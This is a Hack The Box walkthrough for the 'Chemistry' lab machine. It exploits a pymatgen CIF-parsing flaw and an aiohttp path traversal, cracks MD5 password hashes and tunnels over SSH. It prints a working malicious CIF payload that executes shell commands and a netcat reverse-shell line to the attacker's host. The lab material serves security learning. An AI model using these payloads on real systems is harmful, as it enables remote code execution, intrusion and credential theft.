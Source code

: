 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

The inital nmap scans reveals two ports open, 22 and 5000.

<br><br>

`$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>

The application hosted on the box at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.

<br><br>

![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>

Surfing the web i find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All you need to do is craft a malicious .cif file, and then inject the command you want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("<INSERT_PAYLOAD>");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>

Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, i find the right one to be:

<br><br>

> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows me to gain a reverse shell:

<br><br>

![Pasted image 20241023004209-1](https://github.com/user-attachments/assets/863f5c8e-9fd9-4335-832c-3b353981df40)


<br><br>

Checking the app's directory, i'm able to retrieve the .db database that has stored all the *users passwords md5 hashes*, encoded with the following algorythm, as i can read in the *app.py* file.

<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![Pasted image 20241023010333-1](https://github.com/user-attachments/assets/4d608551-6f3c-4efa-aa7f-12c6edfd4eac)

<br><br>

![Pasted image 20241023010740-1](https://github.com/user-attachments/assets/23efb1d7-f3bc-4c83-90d7-86ee6a9ee831)

<br><br>

A quick hop to https://crackstation.net reveals me the cleartext password of rosa's user:

<br><br>

![Pasted image 20241102202421](https://github.com/user-attachments/assets/f75f982e-c7e4-4475-aaef-a51aa3d913ff)

<br><br>

I get an initial foothold on the machine. I have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, i find out a *service listening on port 8080*, localhost

<br><br>

![Pasted image 20241023012150-2](https://github.com/user-attachments/assets/e23684f0-94c2-458f-bc70-886c0c5d34ca)

<br><br>

To enumerate this service, i make up an *SSH tunneling* to our remote host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *my local* 8080 port  to the remote machine's local 8080 port. 
(Attacking Box 127.0.0.1:8080 ----> Victim Box 127.0.0.1:8080)
This means that i can direct external traffic, like a scan or even access the service from a browser if possible, to an internal service on a remote machine that otherwise would be accessible only from the box itself.
Nmap shows me that Chemistry is running *aiohttp 3.9.1*

<br><br>

![Pasted image 20241102200205](https://github.com/user-attachments/assets/cf5b4ec4-b9b7-4c90-b592-e9532b9966f0)

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. I'm going to modify a bit the script to make it run on *my* localhost's port 8080 and redirecting the exploit to the internal service, trying to read *root's flag*. 

<br><br>

![Pasted image 20241102200634](https://github.com/user-attachments/assets/ade0fe67-0d57-48da-a028-0c308f1ffe52)

<br><br>

And...

<br><br>

![Pasted image 20241102201153](https://github.com/user-attachments/assets/40bfecd8-d215-4b34-abe2-ae06e139e189)

<br><br>

Success! I have partial root access that can be leveraged to a shell and eventual full compromise of the box!
